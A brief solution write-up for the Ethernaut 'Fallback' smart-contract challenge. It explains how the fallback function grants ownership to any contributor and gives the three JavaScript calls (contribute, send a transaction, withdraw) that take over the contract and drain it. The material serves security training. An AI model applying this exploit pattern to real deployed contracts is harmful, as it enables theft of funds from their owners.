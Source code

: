 # Level1 - Fallback

- [link to challenge](https://ethernaut.zeppelin.solutions/level/0x234094aac85628444a82dae0396c680974260be7)

# Issue

- The default function lets anyone who has contributed become owner as long as they've contributed at least 1 Wei.

# Solution

```
(await contract.contribute({ value: 1}))
(await contract.sendTransaction({ value: 1 }))
(await contract.withdraw())
```
